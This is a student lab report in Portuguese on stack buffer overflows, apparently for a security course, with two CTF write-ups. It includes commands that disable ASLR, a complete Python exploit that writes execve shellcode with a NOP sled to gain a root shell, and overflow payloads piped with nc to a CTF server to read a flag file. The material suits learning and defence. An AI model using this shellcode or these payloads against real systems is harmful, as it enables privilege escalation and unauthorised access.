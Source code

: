 # Task 1
Depois de compilar o código utilizando a makefile dada, são criados dois programas um a32.out e um a64.out, tornando possível inciar a shell em 32 bits ou em 64 bits. Ambos programas não apresentaram diferenças de execução visíveis. Sendo que os dois codigos apenas abrem uma shell sem permissões root.

![Task1](/Images/LB5T1.png)


# Task 2 
Foi executado o commando  "sudo sysctl -w kernel.randomize_va_space=0" desligando assim a aleatoriedade de memória para ter a certeza que o exploit funciona sempre. Caso a aleatoriedade seja ativada o nosso exploit passa a não funcionar sempre tendo uma probabilidade muito pequena de resultar (mas não nula).
Foi também executado o comando "sudo ln -sf /bin/zsh /bin/sh" para evitarmos usar o /bin/bash que têm proteções contra este tipo de ataque.

# Task 3
Para executarmos o buffer overflow precisamos de duas informações, a distância desde do início do buffer até ao nosso valor de retorno e um endereço de memória que corresponda ao início do nosso shellcode ou a uma instrução NOP anterior ao mesmo.

Para descobrirmos a distância entre o início do buffer e o valor de retorno basta subtrair o endereço de memória do base pointer ($ebp) ao início do buffer (&buffer) e somar 4, pois, o endereço de retorno encontra-se na stack 4 bytes acima do base pointer. Ao subtrair esses 2 valores obtemos 0x6C que corresponde a 108 em decimal, somando 4 obtemos 112 bytes de diferença.

![ValorReturno](/Images/LB5T3.png)

Como entre o valor de retorno e o shellcode só existem bytes preenchidos com a instrução NOP podemos adicionar um valor superior a 0x8 ao base pointer (para passar por cima do base pointer e do valor de retorno). Como fora do gdb as posições de memoria alteram ligeiramente foi dado 0x40 em vez de 0x8 para compensar (0xffffc828+0x40).

Criando o ficheiro badfile com o exploit.py e a seguir correndo ./stack-L1 obtemos uma shell com permissões root.

![shellroot](/Images/LB5T3_2.png)

exploit.py:
```
#!/usr/bin/python3
import sys

# Replace the content with the actual shellcode
shellcode= (
  "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f"
  "\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\x31"
  "\xd2\x31\xc0\xb0\x0b\xcd\x80"
).encode('latin-1')

# Fill the content with NOP's
content = bytearray(0x90 for i in range(517)) 

##################################################################
# Put the shellcode somewhere in the payload
print(len(shellcode))
start = 517-len(shellcode)             # Change this number 
content[start:start + len(shellcode)] = shellcode

# Decide the return address value 
# and put it somewhere in the payload
ret    = 0xffffc828+0x40           # Change this number  0xffffc8ec
offset = 112            # Change this number 

L = 4     # Use 4 for 32-bit address and 8 for 64-bit address
content[offset:offset + L] = (ret).to_bytes(L,byteorder='little') 
print((ret).to_bytes(L,byteorder='little'))
#################################################################

# Write the content to a file
with open('badfile', 'wb') as f:
  f.write(content)
```


# CTF Desafio 1:

Inicialmente foi executado o comando 'checksec program' com o objetivo de analisar com que proteções é que o programa foi compilado.

![Desafio1](/Images/CTF5.1.jpg)

Podemos concluir que a arquitetura é x86(Arch), não existe um cannary a proteger o return address (Stack), a stack tem permisssão de execução (NX), e as posições do binário não estão randomizadas (PIE).

A seguir, ao analizarmos o código 'main.c',inicialmente o programa faz uma leitura de input com scanf de uma string com 28 caracteres

```
scanf("%28s", &buffer);
```

Continuando com a análise do código, foi aberto o ficheiro 'mem.txt' e dentro de um ciclo While, existe uma condição na qual é executado a função fgets(), que lê uma 20 caracteres da stream especificada 'fd' e a armazena na string 'buffer'. É possível perceber que existe uma diferença de 8 caracteres no buffer, ocasionando num buffer overflow. Desse modo, preenchendo a string com 20 caracteres arbitrários e seguido do ficheiro que queremos ler, no caso 'flag.txt', torna-se possível abrir o mesmo ao invés de 'mem.txt'.

![Desafio1.1](/Images/CTF5.1.1.png)


# CTF Desafio 2:

Inicialmente foi executado o comando 'checksec program' com o objetivo de analisar com que proteções é que o programa foi compilado.

![Desafio1](/Images/CTF5.2.jpg)

Foi possível verificar que as permissões encontram-se como no desafio 1.

A seguir, analisando o codigo 'main.c', é criada uma variavel char 'buffer[20]' e uma variavel char 'val[4]' = "\xef\xbe\xad\xde". Depois, é realizado um scanf que lerá 32 caracteres do input, assim, coloca-se quaisquer 20 caracteres para ocupar o buffer. A seguir no codigo, existe um if que será executado caso a variavel 'val' seja igual a 0xfefc2122. Desse modo, atribui-se \x22\x21\xfc\xfe no input após os os 20 caracteres inseridos, de modo a sobrescrever o valor em val e entrar no if. 
De maneira a sobrescrever o ficheiro a ser lido pelo programa, ainda no input inicial, após atribuir o novo valor a val, coloca-se 'flag.txt'. O input final será: "aaaaaaaaaaaaaaaaaaaa\x22\x21\xfc\xfeflag.txt"

Foi executado python2 -c 'print "aaaaaaaaaaaaaaaaaaaa\x22\x21\xfc\xfeflag.txt"' | nc ctf-fsi.fe.up.pt 4000 para obter o resultado final, resultando na flag: flag{2fb7cb6592c197b051f41541b3da6ab1}

